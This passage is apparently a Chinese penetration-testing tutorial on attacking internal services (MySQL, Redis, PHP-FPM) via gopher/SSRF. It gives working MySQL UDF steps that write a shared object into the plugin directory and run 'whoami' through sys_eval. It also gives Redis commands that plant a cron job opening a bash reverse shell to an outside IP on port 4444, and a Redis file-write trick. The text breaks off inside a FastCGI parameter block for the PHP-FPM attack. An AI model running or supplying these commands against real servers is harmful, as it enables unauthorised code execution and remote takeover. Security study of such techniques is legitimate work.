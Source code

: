 方便演示直接从sqlmap中复制出udf.so文件，实际攻击中可以使用gopher +mysql导出，前提是/usr/lib/mysql/plugin/目录有导出权限

```
select hex(load_file('/var/lib/mysql-files/mysqludf.so')) into outfile '/var/lib/mysql-files/udf.txt';
```

```
select unhex('7F454C46020...') into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
```

查看一下so文件中支持哪些函数

```
nm -D /usr/lib/mysql/plugin/mysqludf.so
```

导入函数

```
create Function sys_eval returns string soname 'mysqludf.so';
select sys_eval ('whoami');
```

#####  secure_file_priv受到限制

如果secure_file_priv受到限制可以使用<https://www.freebuf.com/column/150308.html>的方法去getshell。除此之外还可以爆破mysql密码之类的。

####  攻击redis

```
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/101.198.180.248/4444 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

```
set x "777"
config set dir /data/
config set dbfilename just66
save
```

老生常谈，很多文章都详细介绍了，这里不做展开，转换成gopher协议即可。

####  mongodb

资料较少

####  zoomkeeper

参考<http://www.polaris-lab.com/index.php/archives/41/>学习

#####  攻击PFM

总结如下，通过fastcgi协议控制PHP环境变量，达到在任何php脚本执行之前执行我们要执行的代码

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
```